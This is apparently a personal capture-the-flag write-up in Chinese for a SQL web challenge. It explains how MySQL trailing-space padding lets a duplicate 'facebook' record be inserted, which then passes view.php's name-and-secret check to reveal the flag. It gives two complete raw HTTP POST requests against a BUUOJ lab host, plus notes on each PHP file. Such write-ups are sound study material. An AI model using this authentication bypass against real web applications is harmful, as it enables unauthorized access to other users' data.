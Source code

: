 tags:: [[CTF/SQL]]

- # mysql的缺陷
	- 如果插入的字符串不够长，mysql会在尾部添加空格。
	- 也就是说，如果我们插入一条开头为`facebook`，末尾有很多空格的记录，就可以伪装成facebook的记录
- # view.php的缺陷
	- 如果数据库中有两条名字相同的记录，我们可以通过提交第二条记录的secret绕过检测，读取第一条记录
- # 完整思路
	- 利用mysql的缺陷插入另外一条facebook记录
	- 利用view.php的检查缺陷读取facebook记录，拿到flag
- # payload
	- 第一次
		- ```http
		  POST /add.php HTTP/1.1
		  Host: 05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Length: 108
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Type: application/x-www-form-urlencoded
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
		  Referer: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81/add.php
		  Accept-Encoding: gzip, deflate
		  Accept-Language: zh-CN,zh;q=0.9
		  Connection: close
		  
		  name=facebook++++++++++++++++++++++++++++++++++++++++++++++++++++++++&secret=FacebookFacebook1&description=1
		  ```
	- 第二次
		- ```http
		  POST /view.php HTTP/1.1
		  Host: 05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Length: 38
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Type: application/x-www-form-urlencoded
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
		  Referer: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81/view.php
		  Accept-Encoding: gzip, deflate
		  Accept-Language: zh-CN,zh;q=0.9
		  Connection: close
		  
		  name=facebook&secret=FacebookFacebook1
		  ```
- # 施工记录
	- `db.php`
		- ```sql
		  INSERT INTO products VALUES('facebook', sha256(....), 'FLAG_HERE');
		  INSERT INTO products VALUES('messenger', sha256(....), ....);
		  INSERT INTO products VALUES('instagram', sha256(....), ....);
		  INSERT INTO products VALUES('whatsapp', sha256(....), ....);
		  INSERT INTO products VALUES('oculus-rift', sha256(....), ....);
		  ```
		- 提示flag在数据库中，数据库查询做了参数化查询，无法SQL注入
		- 需要触发`get_product("facebook")`才可以获取flag
		- `check_name_secret`只要有名字相同的记录就可以绕过
		- 所有函数都没有检查是否是字符串
			- 传入数组会变成`Array`字符串
	- `add.php`
		- 含有`get_product`触发点，但不会返回结果
		- 只要能绕过`get_product`就可以插入同名记录
			- ^^字符串截断？^^
	- `view.php`
		- 含有`get_product`触发点
			- 触发条件是通过`check_name_secret`
	- `index.php`
		- 会显示数据库中的前5个结果
		- facebook在最下面
-
-
-